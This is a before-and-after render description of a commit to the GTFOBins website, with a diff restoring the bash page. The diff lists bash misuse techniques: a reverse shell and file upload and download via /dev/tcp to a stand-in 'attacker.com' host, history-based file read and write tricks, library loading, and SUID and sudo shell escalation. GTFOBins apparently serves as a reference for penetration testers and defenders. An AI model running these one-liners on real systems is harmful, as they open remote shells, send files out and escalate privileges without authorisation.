

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/bash.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Restore bash
Closes #426.

```diff
--- a/_gtfobins/bash.md
+++ b/_gtfobins/bash.md
@@ -1,9 +1,67 @@
 ---
 functions:
   shell:
-    - code: dc -e '!/bin/sh'
+    - code: bash
+  reverse-shell:
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
+  file-upload:
+    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
+    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
+  file-download:
+    - description: Fetch a remote file via HTTP GET request.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_get
+        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
+            3<>/dev/tcp/$RHOST/$RPORT \
+            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
+    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_get
+        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
+  file-write:
+    - code: |
+        export LFILE=file_to_write
+        bash -c 'echo DATA > $LFILE'
+    - description: This adds timestamps to the output file.
+      code: |
+        LFILE=file_to_write
+        HISTIGNORE='history *'
+        history -c
+        DATA
+        history -w $LFILE
+  file-read:
+    - description: It trims trailing newlines and it's not binary-safe.
+      code: |
+        export LFILE=file_to_read
+        bash -c 'echo "$(<$LFILE)"'
+    - description: The read file content is surrounded by the current history content.
+      code: |
+        LFILE=file_to_read
+        HISTTIMEFORMAT=$'\r\e[K'
+        history -r $LFILE
+        history
+  library-load:
+    - code: bash -c 'enable -f ./lib.so x'
+  suid:
+    - code: "./bash -p"
   sudo:
-    - code: sudo dc -e '!/bin/sh'
-  limited-suid:
-    - code: ./dc -e '!/bin/sh'
+    - code: sudo bash
 ---
```
Also changed, not shown: _gtfobins/dc.md (added, +9 -0 lines).
